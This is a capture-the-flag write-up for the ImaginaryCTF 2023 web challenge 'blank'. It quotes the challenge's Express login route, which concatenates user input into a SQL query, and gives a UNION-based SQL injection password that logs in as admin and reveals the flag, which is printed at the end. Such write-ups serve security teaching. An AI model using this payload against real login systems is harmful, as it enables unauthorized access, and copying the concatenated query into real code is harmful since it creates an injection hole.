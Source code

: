 ```yaml
---
title: 2023 ImaginaryCTF - blank
author: Gr33nM0nk3y
date: 2023-07-23 00:00:00 +0700
categories: [Write-ups, 2023imaginaryCTF]
tags: [Web Exploitation, write-ups]
---
```


* Points: 100

## Description

> I asked ChatGPT to make me a website. It refused to make it vulnerable so I added a little something to make it interesting. I might have forgotten something though...

### Attached

[blank_dist](https://imaginaryctf.org/r/FVauo#blank_dist.zip)

## Analyzation

Check the ```app.js```, these are important lines

```js
app.get('/flag', (req, res) => {
  if (req.session.username == "admin") {
    res.send('Welcome admin. The flag is ' + fs.readFileSync('flag.txt', 'utf8'));
  }
  else if (req.session.loggedIn) {
    res.status(401).send('You must be admin to get the flag.');
  } else {
    res.status(401).send('Unauthorized. Please login first.');
  }
});
```

```js
app.post('/login', (req, res) => {
  const username = req.body.username;
  const password = req.body.password;

  db.get('SELECT * FROM users WHERE username = "' + username + '" and password = "' + password+ '"', (err, row) => {
    if (err) {
      console.error(err);
      res.status(500).send('Error retrieving user');
    } else {
      if (row) {
        req.session.loggedIn = true;
        req.session.username = username;
        res.send('Login successful!');
      } else {
        res.status(401).send('Invalid username or password');
      }
    }
  });
});
```

So, username must be "admin", and we need to bypass the password checker.

## Solution

```
Username = admin 
Password = " UNION SELECT 1337,"junk","junk" -- 
```

Password values can be anything, but UNION requires same argument count and same types (or just NULL values)

The flag is
```
ictf{sqli_too_powerful_9b36140a}

```